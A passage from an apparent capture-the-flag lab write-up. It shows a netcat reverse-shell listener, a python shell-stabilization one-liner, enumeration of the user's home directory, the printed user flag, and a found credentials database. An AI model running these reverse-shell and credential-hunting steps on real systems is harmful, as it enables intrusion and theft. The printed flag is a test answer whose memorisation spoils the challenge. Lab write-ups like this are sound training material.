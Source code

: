 A Netcat listener was set up:

```bash
nc -lvnp 9001
```

Submitting the payload via Burp Suite or the form resulted in a reverse shell as `susan`.

![images (56)](images (56).png)

The shell was stabilized:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Local Enumeration & User Flag

As `susan`, the filesystem was explored:

```bash
ls -la /home/susan
total 52
drwxr-x--- 8 susan susan 4096 May  2 06:22 .
drwxr-xr-x 3 root  root  4096 Oct 27  2023 ..
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .bash_history -> /dev/null
-rw-r--r-- 1 susan susan  220 Feb 27  2023 .bash_logout
-rw-r--r-- 1 susan susan 3771 Feb 27  2023 .bashrc
drwx------ 2 susan susan 4096 Oct 27  2023 .cache
drwx------ 3 susan susan 4096 May  2 08:43 .gnupg
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .lesshst -> /dev/null
drwxrwxr-x 3 susan susan 4096 Oct 27  2023 .local
drwxr-xr-x 2 root  root  4096 Oct 27  2023 Migration
-rw-r--r-- 1 susan susan  807 Feb 27  2023 .profile
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .python_history -> /dev/null
drwxr-xr-x 4 root  susan 4096 Oct 27  2023 ruby_app
lrwxrwxrwx 1 root  root     9 May 14  2023 .sqlite_history -> /dev/null
drwxrwxr-x 2 susan susan 4096 May  2 06:24 .ssh
-rw-r--r-- 1 susan susan    0 Oct 27  2023 .sudo_as_admin_successful
-rw-r----- 1 root  susan   33 May  2 06:21 user.txt
-rw-r--r-- 1 susan susan   39 Oct 17  2023 .vimrc
```

Retrieved the user flag:

```bash
cat /home/susan/user.txt
0bb4beec5564c84cfa907870261db8cc
```

Found a SQLite database in the `Migration` directory:

```bash
ls -la /home/susan/Migration
total 16
drwxr-xr-x 2 root  root  4096 Oct 27  2023 .
drwxr-x--- 8 susan susan 4096 May  2 06:22 ..
-rw-r--r-- 1 root  root  8192 May 14  2023 pupilpath_credentials.db
```
